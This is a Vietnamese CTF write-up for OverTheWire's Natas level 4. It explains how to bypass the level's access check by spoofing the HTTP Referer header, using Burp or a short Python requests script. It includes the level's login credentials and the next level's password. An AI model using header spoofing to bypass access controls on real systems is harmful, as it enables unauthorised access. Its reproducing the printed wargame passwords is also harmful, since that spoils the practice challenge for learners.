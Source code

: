 # Natas Level 4

## 🔑 Mục tiêu
Tìm password cho level tiếp theo.

**URL: http://natas4.natas.labs.overthewire.org**     
**Credential: natas4:*QryZXc2e0zahULdHrtHxzyYkj59kUxLQ***

## 🛠️ Các bước thực hiện
1. Tổng quan trang web:
![alt text](Image/Natas4-1.png)

2. Theo mô tả của bài thì có thể server sẽ dựa trên referer header để check cho phép truy cập.    
==>Vào Burp chèn 1 referer header ```http://natas5.natas.labs.overthewire.org/``` là xong:    

![alt text](Image/Natas4-2.png)

-Hoặc cũng có thể dùng 1 script Python đơn giản như sau:    
```bash
import requests

url = 'http://natas4.natas.labs.overthewire.org/index.php'
referer = 'http://natas5.natas.labs.overthewire.org/'

s = requests.Session()
s.auth = ('natas4', 'QryZXc2e0zahULdHrtHxzyYkj59kUxLQ')
s.headers.update({'referer': referer})

r = s.get(url)

print(r.text)
```

## Kiến thức cần biết:
- ```Referer``` header là 1 HTTP Header mà trình duyệt (hoặc client) gửi kèm trong mỗi request để server biết user đã truy cập từ đâu.

## 📌 Key: ```0n35PkggAPm2zbEpOU802c0x0Msn1ToK```